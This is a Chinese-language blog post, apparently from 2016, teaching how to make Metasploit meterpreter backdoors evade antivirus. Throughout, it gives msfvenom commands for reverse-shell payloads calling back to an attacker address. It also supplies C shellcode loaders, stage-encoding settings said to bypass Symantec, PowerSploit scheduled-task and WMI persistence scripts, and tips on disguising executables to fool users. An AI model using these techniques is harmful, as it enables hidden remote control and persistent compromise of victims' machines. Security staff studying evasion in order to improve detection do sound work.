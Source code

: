 ```yaml
---
layout: post
title:  "Bypass AV meterpreter免杀技巧"
date:   2016-11-15 14:41:01 +0800
tag: Bypass AV
---
```


* content
{:toc}



0x01 meterpreter简介
------------------

MetasploitFramework是一个缓冲区溢出测试使用的辅助工具，也可以说是一个漏洞利用和测试平台，它集成了各种平台上常见的溢出漏洞和流行的shellcode，并且不断更新，使得缓冲区溢出测试变的方便和简单。
需要说明的是meterpreter在漏洞利用成功后会发送第二阶段的代码和meterpreter服务器dll，所以在网络不稳定的情况下经常出现没有可执行命令，或者会话建立执行help之后发现缺少命令，经常出现什么sending stager error，如果网络真的很差的话，可以选用stageless meterpreter。

（meterpreter网上的资料很多，drops上就有不少，我们就长话短说，介绍最有用的几个。）

0x02 生成后门
---------

在旧的metasploit中，生成payload是用msfpayload+msfencode，之后rapid7整合了这两个命令变成了msfvenom，并添加了更多的功能，下面是用msfvenom生成backdoor的实例。

    msfvenom -p  windows/meterpreter/reverse_tcp lhost=192.168.1.200 lport=4444 -f exe > /root/Desktop/Green_m.exe

这样可以生成一个使用tcp协议反向连接到192.168.1.200的4444端口的meterpreter的后门。
这样生成的exe可以运行，但是会被杀掉。

0x03 生成shellcode免杀
------------------

长话短说，手动编译meterpreter并对shellcode进行编码就能绕过静态查杀，meterpreter本身就是直接加载进内存并且有编码，绕过动态查杀基本没问题，(当然你也可以使用veil-evasion，不过效果不怎么好)

    msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ lhost=192.168.1.200 lport=4444   -f c

上述命令生成在之前的基础上生成基于c语言格式的shellcode，通过e参数指定编码方式，i参数指定编码次数，b参数去除指定代码，一般是空代码或者错误代码，-f指定生成格式。

    unsigned char buf[] = 
    "shellcode is here";
    main()
    {
    	( (void(*)(void))&buf)();
    }

这种方式vc++6.0能够成功编译，但是vs编译会报错，可以换成

    main()
    {
    	Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    	memcpy(Memory, buf, sizeof(buf));
    	((void(*)())Memory)();
    }

还有很多其他的方法，这里就不一一测试了。

**友情提示：在实战情况下，免杀效果会根据编译器和系统环境而变化，可以多准备一些环境进行免杀工作。**

通过上述方法编译生成的exe可以绕过几乎100%杀软，包括360，卡巴斯基，小红伞等杀软。


0x04 选择payload进行免杀
------------------

上面生成shellcode的方式是针对杀软静态免杀的，接下来说到动态行为免杀。

在对市面上主流的杀软进行测试的过程中，发现symantec会在meterpreter回连成功，从metasploit里接受数据的时候报毒。

无论是自己手动编码编译还是msf自动生成的exe都会这样被报毒。

经过笔者自己测试，使用reverse_https等payload可以anti symantec。

    msfvenom -p  windows/meterpreter/reverse_https  lhost=192.168.1.200 lport=443   -f c

但是需要在metasploit设置

    set EnableStageEncoding true
    set stageencoder x86/fnstenv_mov
    set stageencodingfallback false

将控制端向被控制端发送的stage进行编码，从而绕过symantec的查杀。

同样，使用reverse_tcp_rc4也有同样的效果，而且不能设置stageencoder选项，更稳定更方便。

    msfvenom -p  windows/meterpreter/reverse_tcp_rc4  lhost=192.168.1.200 lport=4444 RC4PASSWORD=Green-m  -f c

利用rc4对传输的数据进行加密，密钥在生成时指定，在监听的服务端设置相同的密钥。就可以在symantec眼皮地下执行meterpreter。

这里做一个抛砖引玉的作用，其他payload的查杀效果需要各大黑客自己去测试。

0x05 meterpreter常驻的免杀
---------------------

常见的添加meterpreter 常驻的方法无非两种，

persistence和metsvc，这两种方法效果还是不错的，不过在面对杀软的时候无能为力，几乎100%被杀。

下面介绍几种能绕过杀软的添加自启动方法。

 - **1.使用exploit/windows/local/registry_persistence**

通过用户自己指定payload及编码方式，将shellcode添加到注册表，然后再利用powershell加载该shellcode，成功运行meterpreter。

由于加载的payload是由metasploit指定，每次都不一定一样，这个方法在面对大部分主流AV的时候简直强大，只要不监视注册表操作不限制powershell，几乎不会被杀。

同类型的还有其他payload，如exploit/windows/local/vss_persistence，exploit/windows/local/s4u_persistence，有的效果也不错，如添加计划任务启动的功能，但或多或少都有一些限制，总体说来不如上面讲到的方法。

 - **2.利用powershell**

powershell因为其特性，被很多杀毒软件直接忽视，因此用这个方法经常能达到出其不意的效果

其实这个方式和第一种原理都是一样，不过自定义的powershell脚本效果更佳。

这里可以利用一个工具powersploit，下面用它来示范一个简单的例子。

    Import-Module .\Persistence\Persistence.psm1
    
    $ElevatedOptions = New-ElevatedPersistenceOption -ScheduledTask -OnIdle
    
    $UserOptions =New-UserPersistenceOption -ScheduledTask -Hourly
    
    Add-Persistence -FilePath .\Green_m.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose

其中Green_m.ps1是加载有payload的powershell脚本文件，你可以用msf生成一个加载meterpreter的ps1文件。

    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.200 lport=4444 -f psh-reflection -o Green_m.ps1

当然你也可以选择不执行powershell文件而直接执行某个PE文件，可以通过将代码赋予变量来执行。

    $Green_m = { c:\windows\system32\notepad.exe }
    
    $ElevatedOptions =New-ElevatedPersistenceOption -PermanentWMI -AtStartup
    $UserOptions =New-UserPersistenceOption -ScheduledTask -Hourly
    Add-Persistence -ScriptBlock $Green_m -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $Us erOptions -Verbose -PassThru | Out-EncodedCommand | Out-File .\EncodedPersistentScript.ps1

powersploit还有其他非常有用的功能，有兴趣可以自己去github或者使用get-help查询。

 - **3.手动编写**

只要是工具用得太多都难免被AV发现，这个时候就需要手动编写自启动功能。

手动添加自启动，自删除，再改个图标后缀技能骗过杀软也能骗过人眼，扩展一下就是个大马，这里就不多说了。

0x06 总结
-------

meterpreter因为其简单多变的结构，强大的功能，在渗透中面对未知杀软环境的情况下效果不错。

***注：本文所做所有测试不保证完全有效，仅供参考。***

